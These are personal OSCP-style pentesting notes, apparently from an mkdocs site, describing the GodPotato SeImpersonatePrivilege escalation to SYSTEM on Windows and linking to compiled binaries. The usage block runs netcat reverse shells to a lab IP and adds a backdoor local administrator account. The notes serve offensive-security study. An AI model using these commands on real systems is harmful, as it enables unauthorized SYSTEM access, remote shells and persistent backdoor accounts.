

repository: amandaguglieri/hackinglife · page: godpotato/index.html · generator: mkdocs

---
title: GodPotato - SeImpersonatePrivilege abuse
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
  - privilege
  - SeImpersonatePrivilege
---
#  🥔 GodPotato: SeImpersonatePrivilege abuse


!!! abstract "But It's a Potato!"
	**Remarkable explanation about the Potato world and what is going under the hood**: [https://jlajara.gitlab.io/Potatoes_Windows_Privesc](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)


!!! note "Hot binaries!"
	My potato compiled binaries: [https://github.com/amandaguglieri/Privescalation/tree/main/tools/SeImpersonatePrivilege](https://github.com/amandaguglieri/Privescalation/tree/main/tools/SeImpersonatePrivilege)


Based on the history of Potato privilege escalation for 6 years, from the beginning of RottenPotato to the end of JuicyPotatoNG, I discovered a new technology by researching DCOM, which enables privilege escalation in Windows 2012 - Windows 2022, now as long as you have "ImpersonatePrivilege" permission. Then you are "NT AUTHORITY\SYSTEM", usually WEB services and database services have "ImpersonatePrivilege" permissions.

Potato privilege escalation is usually used when we obtain WEB/database privileges. We can elevate a service user with low privileges to "NT AUTHORITY\SYSTEM" privileges. However, the historical Potato has no way to run on the latest Windows system. When I was researching DCOM, I found a new method that can perform privilege escalation. There are some defects in rpcss when dealing with oxid, and rpcss is a service that must be opened by the system. , so it can run on almost any Windows OS, I named it GodPotato
Repo: https://github.com/BeichenDream/GodPotato

Windows Server 2012 - Windows Server 2022 Windows8 - Windows 11


Download the binaries from the release folder at: [https://github.com/amandaguglieri/Privescalation/tree/main/tools/SeImpersonatePrivilege/GodPotato/releases](https://github.com/amandaguglieri/Privescalation/tree/main/tools/SeImpersonatePrivilege/GodPotato/releases)

Example of privilege escalation in oscp-relia:

```
.\GodPotato-NET4.exe -cmd "C:\Users\XXXXX\nc.exe 192.168.45.169 5555 -e cmd.exe"
.\GodPotato-NET35.exe -cmd "C:\Users\XXXXX\\nc.exe 192.168.45.169 5555 -e cmd.exe"
.\GodPotato-NET2.exe -cmd "C:\Users\XXXXX\\nc.exe 192.168.45.169 5555 -e cmd.exe"


.\GodPotato-NET4.exe  -cmd "net user lala Lalala123 /add"
.\GodPotato-NET4.exe  -cmd "net localgroup Administrators lala /add"
.\GodPotato-NET4.exe  -cmd "net localgroup "Remote Management Users" lala /add"

# To print the whoami proof we can print
echo %USERPROFILE%


```
